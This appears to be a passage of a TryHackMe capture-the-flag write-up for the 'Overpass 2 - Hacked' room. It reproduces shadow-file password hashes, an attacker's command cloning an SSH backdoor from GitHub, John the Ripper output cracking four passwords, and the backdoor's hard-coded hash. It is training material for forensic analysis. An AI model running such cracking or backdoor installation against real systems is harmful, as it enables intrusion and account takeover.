 ```
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

`https://github.com/NinjaJc01/ssh-backdoor`

8. Using the fasttrack wordlist, how many of the system passwords were crackable?

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ john shadow --wordlist=wordlist.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2020-10-05 18:15) 7.017g/s 315.7p/s 1578c/s 1578C/s P@55w0rd..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`4`

## Task 2 Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

1. What's the default hash for the backdoor?

* [ssh-backdoor/main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

